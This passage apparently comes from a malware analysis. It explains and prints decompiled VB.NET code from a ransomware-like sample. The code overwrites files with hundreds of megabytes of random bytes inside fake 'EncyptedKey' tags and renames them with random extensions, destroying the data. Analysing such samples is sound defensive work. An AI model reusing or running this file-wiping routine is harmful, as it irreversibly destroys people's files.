 
1.  **`random_bytes` Function**:
    
    -   Generates an array of random bytes of the specified length using `Random.NextBytes`.
    -   Returns this byte array.
2.  **`randomEncode` Function**:
    
    -   Encodes the input string (`plainText`) into UTF-8 bytes, then into a base64 string.
    -   Returns a concatenated string with random elements and the base64-encoded `plainText`. It includes tags `<EncyptedKey>` and random strings, both a 41-character long base64-encoded string and a 2-character random string.
3.  **`Base64EncodeString` Function**:
    
    -   Converts the input string (`plainText`) into UTF-8 bytes and then encodes these bytes into a base64 string.
4.  **`RandomString` Function**:
    
    -   Generates a random alphanumeric string of the specified length.

#### Analysis

This code appears to be part of a file manipulation process, potentially for obfuscation or encryption purposes. Files are modified to contain random data and are renamed.

### Very Large Files Encrypting Process

```vbnet
Dim random As Random = New Random()
Dim num As Integer = random.[Next](200000000, 300000000)
Dim [string] As String = Encoding.UTF8.GetString(Program.random_bytes(num))
File.WriteAllText(files(i), Program.randomEncode([string]))
File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))

Public Shared Function random_bytes(length As Integer) As Byte()
	Dim random As Random = New Random()
	length += 1
	Dim array As Byte() = New Byte(length - 1) {}
	random.NextBytes(array)
	Return array
End Function

Public Shared Function randomEncode(plainText As String) As String
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(plainText)
	Return String.Concat(New String() { "<EncyptedKey>", Program.Base64EncodeString(Program.RandomString(41)), "<EncyptedKey> ", Program.RandomString(2), Convert.ToBase64String(bytes) })
End Function

Public Shared Function Base64EncodeString(plainText As String) As String
	Dim bytes As Byte() = Encoding.UTF8.GetBytes(plainText)
	Return Convert.ToBase64String(bytes)
End Function

Public Shared Function RandomString(length As Integer) As String
	Dim stringBuilder As StringBuilder = New StringBuilder()
	For i As Integer = 0 To length - 1
		Dim c As Char = "abcdefghijklmnopqrstuvwxyz0123456789"(Program.random.[Next](0, "abcdefghijklmnopqrstuvwxyz0123456789".Length))
		stringBuilder.Append(c)
	Next
	Return stringBuilder.ToString()
End Function
```
### Very Large Files Encrypting Process
